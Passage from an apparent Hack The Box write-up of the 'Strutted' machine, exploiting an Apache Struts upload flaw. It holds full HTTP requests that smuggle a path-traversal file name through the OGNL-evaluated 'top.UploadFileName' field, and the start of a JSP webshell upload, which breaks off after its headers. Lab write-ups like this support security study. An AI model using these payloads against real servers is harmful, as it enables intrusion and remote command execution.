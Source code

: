 - In the apache strutts documentation, there's a configuration named `Upload File` that uses `OGNL` to validate request content an evaluates all file uploads


### Exploitation
- In the original request, we need to modify name attribute to `Upload`. Firt letter must be in Upper case

- After doing this, we nned to add the following part into the request. This one contains Strutt configuration properties to evaluates and changes file name:
```bash

Content-Disposition: form-data; name="top.UploadFileName"

../test.txt
```
- In the file name, we can add path traversal. It's important to keep all spaces in the request in the same configuration

```bash
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://strutted.htb/upload.action
Content-Type: multipart/form-data; boundary=---------------------------388871286435985454764127734883
Content-Length: 474
Origin: http://strutted.htb
DNT: 1
Connection: keep-alive
Cookie: JSESSIONID=DC3558DE24F1713AAC6D981931A9960C
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------388871286435985454764127734883
Content-Disposition: form-data; name="Upload"; filename="cat.png"
Content-Type: image/png

PNG

IHDRhM;BPLTEg^«zWQ¼ÿÿÿtn¶ïîîme`YwpNIÅ¡c@>Ñ«¤9!Ûµ®O30°wv\`ÝÓÑ¬âÖ"IEND®B`
-----------------------------388871286435985454764127734883
Content-Disposition: form-data; name="top.UploadFileName"

test.txt

-----------------------------388871286435985454764127734883--
```
- After that, we can send a jsp file with cmd jsp webshell
```txt
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://strutted.htb/
Content-Type: multipart/form-data; boundary=---------------------------385736630213016304902959025936
Content-Length: 1331
Origin: http://strutted.htb
DNT: 1
Connection: keep-alive
```